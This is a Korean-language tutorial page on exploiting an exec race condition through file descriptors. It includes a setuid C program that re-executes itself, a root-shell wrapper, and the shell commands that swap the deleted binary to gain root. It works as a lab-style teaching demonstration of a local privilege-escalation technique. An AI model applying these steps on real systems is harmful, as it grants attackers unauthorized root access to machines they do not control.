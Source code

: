 # Race Condition Exploitation

## Key words

- race condition
- file descriptor

## Description

Race Condition은 하나의 자원을 두고 서로 다른 대상이 경쟁 상태에 놓이는 것을 말합니다. 특정 상황에서는 이를 이용하여 Exploit이 가능합니다. 대표적인 예시로는 Privilege Escalation이 있습니다. 보통 레이스 컨디션 하면 반복문을 돌려서 Exploit하는 것을 생각하는 사람들이 많습니다. 하지만 이외에도 파일 디스크립터를 이용하거나 시그널을 이용하는 다양한 방법이 존재합니다. 아래에서는 파일 디스크립터를 이용한 레이스 컨디션에 대해 설명합니다.

## Practice

```c
#include <unistd.h>
int main(int argc, char **argv, char **envp)
{
	char buf[4096];

	if (argc < 2)
	{
		if (readlink("/proc/self/exe", buf, sizeof(buf)) < 0) return 1;
		char *args[] = { buf, "1", 0 };
		if (execve(args[0], args, 0) < 0) return 1;
	}

	return 0;
}
```

`vulnerable.c`는 `자기 자신`을 실행시키는 코드입니다.

```c
#include <unistd.h>

int main()
{
	if (geteuid()!=0) exit(1);
	setuid(geteuid());
	char *args[] = { "/bin/sh", 0 };
	return execve(args[0], args, 0);
}
```

`wrapper.c`는 `/bin/sh`를 실행시키는 코드입니다.

```
$ ls -l
total 24
-rwsr-sr-x 1 root root 8728 Nov  6 17:12 vulnerable
-rwxr-xr-x 1 root root 8824 Nov  6 16:57 wrapper
```

`vulnerable`에는 setuid가 걸리게 환경을 세팅했습니다.

```
$ exec 3< ./vulnerable
$ ls -l /proc/$$/fd/3
lr-x------ 1 testuser2 testuser2 64 Nov  6 17:16 /proc/3177/fd/3 -> /home/testuser2/race_condition/vulnerable
```

쉘 프로세스의 `3번 fd`에 `./vulnerable`을 넣어둡니다. 그러면 바이너리는 실행되지 않은 채로 3번 fd에 담기게 됩니다.

```
$ rm -f vulnerable
$ ls -l /proc/$$/fd/3
lr-x------ 1 testuser2 testuser2 64 Nov  6 17:16 /proc/3177/fd/3 -> /home/testuser2/race_condition/vulnerable (deleted)
```

그 후 해당 바이너리를 삭제하면 위와 같이 `(deleted)` 표시가 생깁니다. setuid가 걸린 바이너리가 이미 fd에 올라간 상태이고 실제로는 바이너리가 없어진 상태입니다.

```
$ cp wrapper "vulnerable (deleted)"
$ exec /proc/$$/fd/3
```

이 때 `/bin/sh`를 실행시키는 `wrapper` 바이너리를 `vulnerable (deleted)`로 옮깁니다. 그러면 이미 fd에 올라가있던 `vulnerable`이 실행되면서 자기 자신인 `vulnerable (deleted)`을 실행합니다. `vulnerable (deleted)`는 다른 바이너리로 대체되었으므로 결국 `wrapper`가 실행되면서 root 권한의 쉘을 획득할 수 있습니다.

## Reference

https://blog.stalkr.net/2010/11/exec-race-condition-exploitations.html